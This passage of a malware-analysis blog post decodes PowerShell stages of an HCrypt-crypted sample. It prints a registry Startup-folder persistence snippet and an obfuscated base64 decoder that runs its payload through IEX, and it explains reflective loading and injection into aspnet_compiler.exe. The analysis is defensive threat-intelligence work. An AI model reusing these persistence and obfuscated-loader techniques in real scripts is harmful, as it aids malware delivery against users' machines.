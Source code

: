 After decoding using a PowerShell console, we have the cleartext below. Sure enough, the sample contains code to create a persistence mechanism in a Windows Registry key. The value of that key leads to the HTA dropped on disk.

```powershell
[system.io.directory]::CreateDirectory($HHxHH)
start-sleep -s 5
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Startup" -Value $HHHxHHH;
```

Now that we know what this stage does, let's move forward to look into `S_B.txt`!

## Decoding S_B.txt PowerShell (Stage 04/Last Stop)

In this stage we can immediately see two really large hex-encoded strings that I truncated here to keep the post manageable. The variables `$HH1` and `$H4` contain two hex strings that likely decode to Windows EXE files. We can immediately tell this because the strings start with `4D5A`, which translates from hex into the traditional `MZ` magic bytes for Windows EXE files. Further down, the adversary has a `VIP()` function that decodes text from base64 strings. Finally, there's some base64 code at the bottom of the script that has some string obfuscation inside that gets replaced/removed during runtime. If we do the replacement ourselves using find/replace we can have some legible base64 text to decode.

```powershell
$HH1 = '4D5A9::::3 ... ::::::::::::::::::::::'.Replace(":","0")
[String]$H4='4D5A9::::3 ... :::::'.Replace(":","0")

FUNCTION VIP($9467422421889788552276)
{
    $8398517835117813353988 = "Get1859655144789612381153ng".Replace("1859655144789612381153","Stri");
    $4699715146936475627384 = [Text.Encoding];$7899832798818496373215 = "U76241165786257964469388".Replace("7624116578625796446938","tf")
    $5654519196338572648864 = "Fr"+"omBa"+"se6"+"4Str"+"ing"
    $1436688125918197238672 = $4699715146936475627384::$7899832798818496373215.$8398517835117813353988([Convert]::$5654519196338572648864($9467422421889788552276))
    return $1436688125918197238672
}

$AAAAASXXX = '5961151185971873545969W15961151185971 ... 185971873545969nKXx5961151185971873545969JYEV5961151185971873545969gWA5961151185971873545969=5961151185971873545969=5961151185971873545969'.Replace("5961151185971873545969","")
$AAAAASXXXX = VIP($AAAAASXXX);
IEX $AAAAASXXXX
```

And after decoding the text ourselves, we have the chunk of code below! This chunk of code takes the hex-encoded strings and converts them into byte arrays. This is significant for a couple reasons in malware analysis. First, if the adversary simply wanted to execute the malware, they could run `Start-Process` or call the EXE manually. Holding the binaries as byte arrays means they're planning to use them programmatically in PowerShell or .NET code, usually with some form of injection or reflective loading. Sure enough, at the end of the script contents we can see [`[Reflection.Assembly]::Load()`](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.load?view=net-6.0#system-reflection-assembly-load(system-byte())). This call loads the contents of the `$H5` binary into memory for use. These contents are likely a .NET DLL. The rest of the code calls the function `HHH()` from the class `HH.HH` in that loaded DLL, providing the input string containing `aspnet_compiler.exe` and the byte array `$H6` which likely contains a payload the adversary intends to inject into `aspnet_compiler.exe`. I'll cover this a bit more at the end of the post, but this style of payload delivery is incredibly common among modern crypters that adversaries use to shield their payloads. For the threat intel geeks, take note of the string `$HBAR` in the PowerShell code. This is [one indicator we're looking at HCrypt](https://blog.morphisec.com/tracking-hcrypt-an-active-crypter-as-a-service).
